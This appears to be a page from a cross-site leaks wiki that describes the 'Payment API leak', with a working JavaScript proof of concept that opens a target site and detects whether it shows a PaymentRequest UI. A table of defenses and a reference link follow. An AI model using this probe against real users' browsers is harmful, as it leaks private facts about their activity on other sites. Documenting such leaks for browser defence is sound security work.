 +++
title = "Payment API leaks"
description = ""
category = "Attack"
abuse = []
defenses = []
menu = "main"
weight = 2
+++

## Detecting usage of Payment API
Because only one PaymentRequest UI is allowed to be visable the blocking can be detected. [^demo]
```javascript
const applePayMethod = {
    supportedMethods: "https://apple.com/apple-pay",
    data: {
        version: 3,
        merchantIdentifier: "merchant.com.example",
        countryCode: "US",
        merchantCapabilities: ["supports3DS"],
        supportedNetworks: ["visa"],
    },
}

const methods = [{supportedMethods: "basic-card"}, applePayMethod];
const details = {
    total: {
        label: "Total",
        amount: {
            currency: "USD",
            value: "1.00",
        },
    },
}

const sleep = (ms) => {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function paymentsUsage(url) {
    return new Promise(async (r) =>  {
        if (!window.PaymentRequest){
            return r('PaymentRequest not supported.');
        }
        let w = open(url);
        await sleep(2000);
        let request = new PaymentRequest(methods, details);
        request.show().catch((err) => {
                if(err.message == "Another PaymentRequest UI is already showing in a different tab or window.")
                    return r(1);
                else{
                    return r(0);
                }
            }
        )
        request.abort();
    });
    
}
```
{{< hint info >}}
Firefox doesn't currently support PaymentRequest.
{{< /hint >}}

## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                         ❌                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
## References

[^demo]: Detect if another tab is using the Payment API, [link](https://xsinator.com/testing.html#Payment%20API%20Leak)
